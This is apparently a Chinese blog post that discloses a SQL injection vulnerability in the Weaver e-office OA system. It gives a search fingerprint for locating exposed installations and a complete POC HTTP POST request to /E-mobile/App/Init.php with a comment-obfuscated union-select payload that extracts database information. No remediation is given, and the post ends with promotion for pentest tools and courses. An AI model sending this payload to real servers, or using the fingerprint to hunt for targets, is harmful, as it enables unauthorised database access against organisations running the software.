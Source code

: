 # 原创
：  SQL注入漏洞

# SQL注入漏洞

> 
如果文章对你有帮助，欢迎关注、点赞、收藏一键三连支持以下哦！<br/> 想要一起交流学习的小伙伴可以加zkaq222（备注CSDN，不备注通不过哦）进入学习，共同学习进步


**0x01 漏洞介绍**<br/> 泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件，国内协同OA办公领域领导品牌，致力于为企业用户提供专业OA办公系统、移动OA应用等协同OA整体解决方案。泛微e-office深谙改革之道以迎变革之机，沉心产品研发数十载之久，全新产品e-office10.0正式上线，力求为用户提供更极致、更优质的产品体验。 一年半多的孵化造就了产品功能的进一步提升。该漏洞存在与lnit.php?m= 处，攻击者可以利用该漏洞获取数据库敏感信息<br/>**0x02 影响产品**

```
 泛微协同办公e-office标准版

```

**0x03 语法特征**

```
app="泛微-EOffice"

```

**0x04 漏洞复现**<br/> 页面<br/>  

<br/> POC

```
POST /E-mobile/App/Init.php?m=getSelectList_Crm HTTP/1.1
Host: xxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 60

cc_parent_id=-999 /*!50000union*/ /*!50000select*/ 1,user()#

```

**没看够~？欢迎关注！**

 渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/f333a24647774be5b99b00fb7019d620.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/3e579b7d7a164889a57771c035775069.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/a601ca2e0eb040bd911477a4f54fef8e.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/04beeeb6757b422a83ca0900a349a544.png" width="665"/>
